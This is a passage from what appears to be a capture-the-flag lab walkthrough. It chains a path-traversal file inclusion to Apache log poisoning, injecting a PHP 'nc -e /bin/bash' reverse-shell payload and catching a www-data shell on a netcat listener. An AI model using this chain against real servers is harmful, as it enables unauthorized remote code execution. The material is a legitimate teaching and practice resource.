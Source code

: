 - Next, we’ll use the LFI to verify whether our attack worked.

```bash
kali@kali:~$ curl http://192.168.120.167:8593?book=../../../../../var/log/apache2/access.log
<html>
    <head>
	<link href="https://fonts.googleapis.com/css?family=Comic+Sans" rel="stylesheet">
	<link rel="stylesheet" type="text/css" href="style.css">
    </head>
    <body>
	<div class="menu">
	    <a href="index.php">Main Page</a>
	    <a href="index.php?book=list">Book List</a>
	</div>
We are still setting up the library! Try later on!<p>192.168.118.9 - - [11/Aug/2020:17:16:09 -0400] "GET TEST123 HTTP/1.1\n" 400 0 "-" "-"
</p>    </body>
</html>
```

- We’ll observe that the php code was executed. We can leverage this to execute commands.


## Exploitation

### Log Poisoning

Let’s use the log poisoning attack to inject our payload.

```bash
kali@kali:~$ echo "GET <?php system('nc -e /bin/bash 192.168.118.9 444'); ?> HTTP/1.1" | nc 192.168.120.167 80
```

First, we’ll start our listener.

```bash
kali@kali:~$ sudo nc -nvlp 444
listening on [any] 444 ...
```
Next, we trigger our payload using the LFI.

```bash
kali@kali:~$ curl http://192.168.120.167:8593?book=../../../../../var/log/apache2/access.log
```
We receive our shell.

```bash
kali@kali:~$ sudo nc -nvlp 444
listening on [any] 444 ...
connect to [192.168.118.9] from (UNKNOWN) [192.168.120.167] 52810
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

python -c "import pty; pty.spawn('/bin/bash')"
www-data@solstice:/var/tmp/webserver$

www-data@solstice:/var/tmp/webserver$ stty rows 50 cols 250
stty rows 50 cols 250
```
